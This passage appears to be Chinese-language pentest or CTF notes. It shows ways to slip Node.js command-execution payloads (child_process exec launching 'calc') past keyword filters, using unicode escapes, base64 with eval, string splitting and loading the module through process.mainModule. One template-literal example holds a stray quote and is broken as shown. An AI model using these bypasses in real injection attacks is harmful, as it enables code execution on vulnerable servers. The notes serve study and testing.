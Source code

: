 unicode

```js
require('child_process')["\u0065\u0078\u0065\u0063"]('calc');
```

base64

```js
eval(Buffer.from('cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpWyJleGVjIl0oJ2NhbGMnKTs=','base64').toString());
//require('child_process')["exec"]('calc');
```

ES6模板绕过

```js
require('child_process')[`${`${`exe`}cSync`}`"]('calc');
```

>ES6特性可以用反引号代替括号执行函数，也能代替单引号和双引号，反引号内能插入变量
>
>```js
>var node = "nodejs";
>console.log`hello${node}world`;
>//输出 ['hello','world'] nodejs
>```
>
>之所以这么输出，是因为console参数为hello${node}world，而不是"hello${node}world"，前者是个数组

concat拼接

```js
require('child_process')["exe".concat("c")]('calc');
```

Object.values

> 类似SSTI

```js
Object.values(require('child_process'))[4]('calc').toString();
```

![20231118120211-40213400-85c7-1](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/20231118120211-40213400-85c7-1.png)

过滤require关键字

```js
global.process.mainModule.constructor._load('child_process')
```

## js自执行匿名函数

这种函数在声明时就会立即执行一次

```js
(function () {
  // …
})();

(function () {
  // …
}());

(() => {
  // …
})();

(async () => {
  // …
})();

```